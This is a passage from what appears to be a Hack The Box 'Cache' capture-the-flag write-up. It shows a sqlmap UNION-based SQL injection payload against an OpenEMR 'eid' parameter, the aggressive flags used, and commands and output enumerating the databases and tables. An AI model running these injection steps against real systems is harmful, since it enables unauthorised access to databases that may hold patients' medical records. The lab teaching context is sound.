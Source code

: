 ```console

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71706b7171,0x745a74624265774553436974646d746b576e59487267686668627070744776776847534277524444,0x717a767171),NULL-- -
---
[16:56:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.6
```

### Flags Used
*   -r to specify a request file
*   --batch to tell sqlmap to answer all the questions for us so that it doesnot wait for us to give the answer
*   --risk 3 and --level 5 are the highest value which tells sqlmap to make as much requests it wants

Sqlmap says the website is vulnerable. So lets dump contents from the database.

## Dumping all the contents
### Listing databases
```console
local@local:~/Documents/htb/boxes/cache$ /opt/sqlmap-dev/sqlmap.py -r cache.req --dbs
[17:03:22] [INFO] fetching database names
[17:03:22] [INFO] retrieved: 'information_schema'
[17:03:23] [INFO] retrieved: 'openemr'
available databases [2]:                                                                                                                                                       
[*] information_schema
[*] openemr

```

### Listing tables inside database openemr
```console
local@local:~/Documents/htb/boxes/cache$ /opt/sqlmap-dev/sqlmap.py -r cache.req -D openemr --tables
Database: openemr                                                                                                                                                               
[234 tables]                                                                                                                                                                    
+---------------------------------------+   
| array                                 |
| groups                                |   
| sequences                             |                                                                                                                                       
| version                               |
| addresses                             |
| amc_misc_data                         |
| amendments                            |
| amendments_history                    |
| ar_activity                           |  
| ar_session                            |   
| audit_details                         |                                                                                                                                       
| audit_master                          |                                                                                                                                       
| automatic_notification                |   
| background_services                   |
| batchcom                              |   
....
```